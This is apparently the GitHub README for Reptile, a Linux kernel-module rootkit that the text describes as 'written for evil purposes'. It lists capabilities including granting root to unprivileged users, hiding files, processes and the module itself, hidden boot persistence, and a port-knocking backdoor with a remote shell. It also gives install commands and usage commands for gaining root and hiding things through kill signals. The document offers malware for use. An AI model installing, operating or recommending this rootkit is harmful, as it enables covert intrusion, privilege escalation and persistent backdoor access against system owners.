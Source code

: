 # Reptile

<img align="left" src="https://imgur.com/nqujOlz.png">

<br><br><br><br><br>Reptile is a LKM rootkit written for evil purposes that runs on Linux kernel 2.6.x/3.x/4.x. 
<br><br><br><br><br>

## Features

- Give root to unprivileged users
- Hide files and directories
- Hide files contents
- Hide processes
- Hide himself
- Hidden boot persistence
- Strings obfuscation (Method suggested by: [milabs](https://github.com/milabs))
- ICMP/UDP/TCP port-knocking backdoor
- Full TTY/PTY shell with file transfer
- Client to handle Reptile Shell
- Shell connect back each X times (not default)
   
## Roadmap

- Socket/Packet hiding
 
## Install
```
apt-get install linux-headers-$(uname -r)
git clone https://github.com/f0rb1dd3n/Reptile.git
cd Reptile
./installer.sh install
```
## Uninstall
```
./installer.sh remove
```

## Usage

Binaries will be copied to `/reptile` folder (or any name you chose), that will be hidden by Reptile.

### Getting root privileges

Just run: `/reptile/reptile_r00t`

### Hiding

- Hide/unhide reptile module: `kill -50 0`
- Hide/unhide process: `kill -49 <PID>`
- Hide files contents: `kill -51 0` and all content between the tags will be hidden

Example:
```
#<reptile> 
content to hide 
#</reptile>
```

### Backdoor

You use the client to send magic packets and get your full TTY encrypted shell!

<p align="center">
   <img src="https://imgur.com/GwwIJAM.png">
</p>

More informations: [Reptile Shell](sbin/README.md)

## Disclaimer

Some functions of this module is based on another rootkits. Please see the references!

## References

- “[LKM HACKING](http://www.ouah.org/LKM_HACKING.html)”, The Hackers Choice (THC), 1999;
- https://github.com/mncoppola/suterusu
- https://github.com/m0nad/Diamorphine.git
- https://github.com/David-Reguera-Garcia-Dreg/enyelkm.git
- https://github.com/maK-/maK_it-Linux-Rootkit
- “[Abuse of the Linux Kernel for Fun and Profit](http://phrack.org/issues/50/5.html)”, Halflife, Phrack 50, 1997;
- https://ruinedsec.wordpress.com/2013/04/04/modifying-system-calls-dispatching-linux/
- https://github.com/creaktive/tsh
- http://www.drkns.net/kernel-who-does-magic/

<p align="center">
   <img src="https://imgur.com/RdYgb1T.gif">
</p>
